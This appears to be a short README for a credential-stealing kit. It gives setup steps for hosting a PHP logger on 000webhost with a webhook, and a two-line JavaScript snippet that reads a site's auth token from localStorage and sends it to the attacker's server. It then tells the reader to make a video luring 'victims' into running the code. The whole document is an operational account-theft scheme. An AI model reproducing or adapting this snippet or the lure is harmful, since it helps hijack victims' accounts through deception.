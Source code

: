 # Setting it up:
Make a website on 000webhost
go to file manager
upload the files
replace ur webhook in sc.php line 97
save and close

# How to log people:

var token = localStorage.getItem('auth._token.local');
await fetch("https://yourwebsitehere.com/sc.php?t=" + token);

replace the code with your new website make a vid like this: https://www.youtube.com/watch?v=AEopKzkFME8&t=38s send to your victims/make a youtube on it

done!

# Credits 
$$ Easy#3574
